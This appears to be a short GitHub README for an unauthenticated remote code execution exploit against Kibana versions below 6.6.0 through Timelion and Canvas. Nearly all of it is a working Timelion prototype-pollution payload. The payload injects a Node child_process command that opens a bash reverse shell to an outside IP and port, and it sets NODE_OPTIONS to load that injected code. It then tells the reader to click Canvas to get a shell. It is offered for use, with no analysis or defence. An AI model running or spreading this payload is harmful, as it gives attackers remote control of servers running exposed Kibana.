


# kibana-RCE <6.6.0 未授权远程代码命令执行 (Need Timelion And Canvas)




## 0x01 Timelion Run
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.10.20.166/8989 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```



## 0x02 Click Canvas to getshell


